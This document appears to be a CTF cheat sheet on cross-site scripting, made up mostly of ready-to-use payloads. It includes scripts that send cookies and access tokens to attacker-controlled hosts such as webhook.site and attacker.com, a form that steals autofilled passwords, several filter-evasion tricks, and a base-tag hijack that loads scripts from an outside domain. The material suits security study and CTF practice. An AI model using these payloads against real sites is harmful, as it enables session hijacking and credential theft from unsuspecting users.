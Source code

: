 # XSS (Cross-Site Scripting)
> XSS is a form of injection that enables attackers to inject client-side scripts into web pages viewed by other users.

## OG exploit (cookie grabbing / local storage)
By far the most common type of XSS. Involves loading an external link controlled by attacker with cookie appended as a query, may be a JWT, flag or some other secret.

```
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
<script>fetch('https://webhook.site?'+document.cookie)</script>
```

## Password autofill
We can exploit password managers that automatically fill in HTML input that match `username` and `password` types.

```
<form class="login-form" method="GET" action="/login"> 
	<input type="username" name="username" onchange="fetch('https://attacker.com?username='+this.value)">
	<input type="password" name="password" onchange="fetch('https://attacker.com?password='+this.value)"> 
</form>
```

## Filter evasion!!

### Bypass < & >
Using these special characters: `＜` and `＞` or other similar characters. If you're lucky, the backend will accidentally convert these to actual angle brackets

### Bypass blacklisted js functions
```js
eval('ale'+'rt(1)')
```

### Bypass tag blacklist (no `<script>`)
```
<script x>
<script x>alert(1)<script y>
```

```
<sCrIpt> alert(1) </sCrIpt>
```

### Using `<base>` to bypass tight `<script>` filter

```html
</h3> <base href="https://ngrok.io/abc">
```

This payload can be used provided that there are *existing* **relative** script tags on the page.  
What this does is to change the relative root url of the script tag, so the script tags are now pointing to an attacker controlled source.


## Input is being uppercased

In addition, you can also take advantage of this. Certain characters (like ß and ﬃ) count as a single character, but become multiple characters when uppercased (SS and FFI). This is useful in very limited contexts, such as when the length of the initial string is used to iterate through the modifed (uppercased) string later on. By spamming the special characters at the start, you can "push" your XSS payload back, so any filters in place doesn't detect/remove your payload. Refer to: [blazing fast](https://smitop.com/p/dctf22-blazingfast/) (TODO: find characters that do the same for lowercasing)

## Relevant tools
`/CTF/tools/Web/XSS/xssstrike`

